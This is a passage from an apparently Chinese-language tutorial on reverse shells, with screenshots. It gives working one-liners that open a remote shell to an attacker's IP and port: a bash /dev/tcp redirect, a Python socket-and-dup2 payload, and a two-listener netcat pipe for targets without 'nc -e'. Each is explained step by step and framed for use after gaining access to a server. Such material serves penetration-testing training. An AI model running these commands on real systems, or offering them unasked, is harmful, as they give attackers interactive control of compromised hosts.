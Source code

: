 ![delMFO.png](https://s1.ax1x.com/2020/08/17/delMFO.png)

![delUTf.png](https://s1.ax1x.com/2020/08/17/delUTf.png)

#### 命令解释介绍

	bash -i >& /dev/tcp/ip/port 0>&1

在命令中 `bash -i` 表示已交互模式运行`bash shell` 。重定向符 `>&` ,如果在其后加文件描述符，是将`bash -i`交互 模式传递给文件描述符，而如果其后是文件，则将`bash -i`交互模式传递给文件。`/dev/tcp/ip/port` 表示传递给远程主机的IP地址对应的端口。

文件描述符： 0 标准输入 、 1 标准输出 、 2 错误输入输出

命令行中的 `0>&1` 表示将标准输入重定向到标准输出，实现远程的输入可以在远程输出对应内容。

## netcat反弹shell (python)

#### 应用场景

某些拿到服务器权限之后，想要设置一个反弹shell.但是目标服务器上没有安装netcat时，但是安装了`python`.

#### 基础介绍

反弹shell命令：

	python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

![deYftx.png](https://s1.ax1x.com/2020/08/17/deYftx.png)

PC 接收netcat 命令：

	nc -lvp port

![detCuQ.png](https://s1.ax1x.com/2020/08/17/detCuQ.png)

#### 命令解释

首先使用socket与远程建立连接，具有了远程的文件描述符3，可以使用`s.fileno()`来查看具体套接字建立的远程文件描述符。

os库的`dup2`方法将标准输入、标准输出、标准错误输出重定向到远程，使用os的`subprocess`在本地开启了一个子进程，传入参数"-i" 使 bash 以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了远程，这样就可以实现反弹shell.	

## netcat反弹shell (不支持 nc -e)

#### 应用场景

某些拿到服务器权限之后，想要设置一个反弹 shell .当时因为配置原因不支持 -e 参数。

#### 基础介绍

反弹shell：

	nc ip port | /bin/bash | nc ip port

PC 接收 netcat 命令，需要启动两个监听端口

	nc -lvp port

实例：

nc监听kali 4445 4446，在centos 反弹命令。

然后，在lali 4445 监听的终端输入命令，在监听 4445 的终端会输出回显。

#### 命令解释介绍

在攻击测试机器上开启两个 nc 进行监听，其中一个作为输入，另一个作为输出。

目标机器上  使用管道来重新定向输入输出。